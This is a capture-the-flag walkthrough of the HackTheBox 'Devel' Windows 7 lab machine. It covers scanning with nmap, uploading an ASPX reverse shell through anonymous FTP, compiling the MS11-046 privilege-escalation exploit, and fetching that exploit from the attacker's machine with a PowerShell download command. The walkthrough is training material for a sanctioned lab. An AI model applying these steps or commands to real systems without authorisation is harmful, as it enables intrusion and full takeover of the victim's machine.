 # HackTheBox - Devel Writeup


Box author | {{< person url="https://app.hackthebox.com/users/1" name="ch4p" picture="https://www.hackthebox.com/storage/avatars/08c255a334e10b3033ab7263e6b32422.png" >}}

<!--more-->

## Enumeration

- scan top 1000 ports

```bash
nmap -sC -sV -oN nmap/initial 10.10.10.5
```

- the result

![nmap initial scan](1000.png "nmap initial scan")

- all ports scan

```bash
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.5
```

- the result

![nmap allports scan](all_ports.png "nmap allports scan")

### Open Ports
- We all know both Nmap scan shows us, just 2 open ports
- 21/FTP = Microsoft ftpd
- 80/HTTP = Microsoft IIS httpd 7.5

### FTP
- File Transfer Protocol [FTP] on this machine is open and allowed login as anonymous
- Let's connect to it

![ftp anonymous](ftp.png "ftp anonymous")

- Well, I can't find anything on it
- So, I'm thinking this FTP might have been connected to the other port [port 80].

### WebPage
- As we saw the image above. It has a `welcome.png` image.
- Let's put that on the `URL`

![default IIS webpage](welcome.png "default IIS webpage")

- COOL!

## Foothold/Gaining Access

### ASPX Reverse Shell
- Let's try to get the reverse shell 
- So, this is `Microsoft IIS` 
- with light googling. I've found the [aspx reverse shell](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
- Source
	- [Github - borjmz](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
<br>
- I'm gonna put the reverse shell on the FTP server
- Then, execute it with the `curl` command

![shell as iis apppool\web](got_shell.png "shell as iis apppool\web")

- I'm in as `iis apppool\web`

### systeminfo

- Let's enumerate this machine.
- First, I'm gonna run the `systeminfo` command
- the result

![systeminfo](systeminfo.png "systeminfo")

- OK! WOW!
- we're on Microsoft Windows 7 and it's a really old machine.
- Again. I'm gonna google around.

## Privilege Escalation

### MS11-046

![found an exploit](exploit-db.png "found an exploit")

- I've found this exploit
- Let's download it and compile the exploit <br>
-> don't worry, they got the compiling instructions

### Compiling Exploit
{{< admonition tip >}}
If you got this response after try to compiling `command not found: i686-w64-mingw32-gcc` <br>
Just run this command to install  it `apt install mingw-w64` 
{{< /admonition >}}

- This is the command for compiling
```bash
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```
- After it is done, you got the binary in your directory called `MS11-046.exe`

### Transfer the Exploit
- Turns out, this machine has `PowerShell`
- I'm gonna host my file with a python webserver

```python
python3 -m http.server
```
- Let's transfer the exploit using PowerShell with this command.
- Source <br>
	-> [Jourdant - 3 ways to download files with PowerShell](https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell)

```powershell
powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.15:8000/MS11-046.exe', 'c:\users\public\documents\lol.exe')"
```
- Then, execute it.

![become nt authority\system](exe.png "become nt authority\system")

- YES! I'm become `SYSTEM`

## User Flag

![user flag](user.png "user flag")

## Administrator Flag

![root flag](admin.png "root flag")

## Conclusion
I've learned a lot today. If you using File Transfer Protocol [FTP] make sure to configure it properly and avoid using anonymous access. Lastly, just update the system or even better use the new and up-to-date version of windows.

I have a fun time doing this machine and I hope you guys do too. Bye ;)
